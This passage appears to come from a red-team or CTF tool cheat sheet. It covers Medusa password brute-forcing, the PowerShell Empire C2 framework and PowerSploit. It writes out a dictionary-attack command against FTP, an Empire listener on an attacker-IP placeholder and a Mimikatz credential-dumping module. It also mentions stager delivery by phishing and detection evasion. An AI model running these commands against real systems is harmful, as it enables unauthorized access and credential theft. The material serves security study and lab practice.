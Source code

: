 
### Medusa

Medusa is an alternative to Hydra to crack passwords for online services.  
Just like Hydra, it supports a variety of services (SSH, FTP, HTTP...).  
It is slightly slower than Hydra, but it supports parallel attack on multiple target hosts.  

```shell
# dictionary attack on an FTP account
medusa -h <TARGET_IP> -u testuser -P rockyou.txt -M ftp
```


## Post-Exploitation Tools


### PowerShell Empire

Empire is a popular post-exploitation and C2 framework used in red teaming.  
It allows attackers to maintain access, escalate privileges and perform lateral movement.  
It is used a lot in CTF and red teaming labs, but less in real penetration testing due to its growing detection signature.  

Empire lets us run PowerShell agents without the need for PowerShell.exe, to evade detection.  
On a local attacking machine, we can start the Empire server, a listener waiting for a target to connect :
```shell
uselistener http set Host http://<ACCTACKER_IP> execute
```
We then need the target to connect to this Empire server.  
Empire can generate a stager payload in multiple formats.  
The attacker needs to find a way to deliver this payload and execute it on the target machine (phishing, USB drop, remote exploit...).  
Once executed, this stager connects to the Empire server to download the full Empire agent that allows remote control.  

For example, for credentials harvesting using Mimikatz :
```shell
usemodule credentials/mimikatz/logonpasswords execute
```


### PowerSploit

PowerSploit is a collection of PowerShell scripts designed to perform various tasks during the post-exploitation phase.  
It is used after initial access to a target machine to run malicious code, escalate privilege, extract passwords...  

PowerSploit uses PowerShell that is installed by default on every Windows machine.  
It has various modules, like `Invoke-Mimikatz` to dump passwords from memory, or `Invoke-MS16-032` to exploit vulnerabilities to escalate privileges.  

PowerSploit contains the **PowerView** tool used for AD enumeration.  
It can map an AD environment, including users, groups, computers and the relationship between them.
